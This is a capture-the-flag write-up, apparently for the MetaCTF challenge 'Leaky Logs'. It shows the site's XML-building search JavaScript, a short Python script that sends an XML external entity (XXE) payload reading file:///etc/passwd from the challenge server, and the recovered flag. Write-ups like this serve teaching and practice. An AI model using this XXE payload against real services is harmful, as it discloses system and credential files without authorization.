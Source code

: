 # Leaky Logs

This challenge was based around an XML Injection.
We first analyzed the source and found a weird js code to send xml data to the server at this url: `http://host1.metaproblems.com:4920/events`
```js
    function keyup(e) {
        if (e.keyCode === 13) {
            search(document.getElementById("searchbar").value);
        }
    }

    function search(query) {
        console.log(query);

        let doc = document.implementation.createDocument("", "", null);
        let elem = doc.createElement("params");
        let queryparam = doc.createElement("query");
        queryparam.innerHTML = query;
        elem.appendChild(queryparam);
        doc.appendChild(elem);
        const serializer = new XMLSerializer();
        const xmlStr = serializer.serializeToString(doc);
        console.log(xmlStr);

        fetch("/api/event_log", {
                method: "POST",
                headers: {
                    'Content-Type': 'text/xml'
                },
                body: xmlStr
            })
            .then(data => data.text())
            .then(str => new window.DOMParser().parseFromString(str, "text/xml"))
            .then(data => {
                const tableBody = document.getElementById("table-body");
                while (tableBody.firstChild) {
                    tableBody.firstChild.remove()
                }

                for (e of data.getElementsByTagName("event")) {
                    const row = tableBody.insertRow(-1);
                    row.insertCell(-1).innerHTML = e.getAttribute("date");
                    row.insertCell(-1).innerHTML = e.innerHTML;
                    let symbol = "cart";
                    if (e.innerHTML.includes("finished")) {
                        symbol = "user";
                    } else if (e.innerHTML.includes("resumed")) {
                        symbol = "cog";
                    }
                    row.insertCell(-1).innerHTML = "<span uk-icon=\"" + symbol + "\"></span>";
                }
            });
    }

    search("");
```

So we assumed that we can extract files over a XXE and crafted a small exploit script

```
import requests


def exploit():
    res = requests.post("http://host1.metaproblems.com:4920/api/event_log",
                        data="<!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><params><query>&xxe;</query></params>",
                        headers={"Content-Type": "text/xml"})
    print(res.content.decode())
    pass


exploit()
```

And we got a response of the passwd file. Now we need find and exfiltrate the flag. We found it at the root path at
/flag
with the content:
```
MetaCTF{el3m3nt4l_3xtern4lit1e5}
```